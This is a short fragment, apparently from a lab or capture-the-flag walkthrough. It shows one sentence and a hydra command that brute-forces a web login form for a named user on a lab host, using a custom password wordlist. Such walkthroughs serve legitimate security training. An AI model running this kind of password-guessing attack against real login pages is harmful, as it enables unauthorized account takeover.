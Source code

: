 With this command we can run the list passwords from list and check the correct password out of it.
hydra -l wscarlett -P /usr/share/wordlists/custom/ozone-wordlist.txt ozone-energy.bitnet http-form-post "/[LOGINPAGE]:username=^USER^&password=^PASS^&Login=Login:Invalid Password" 
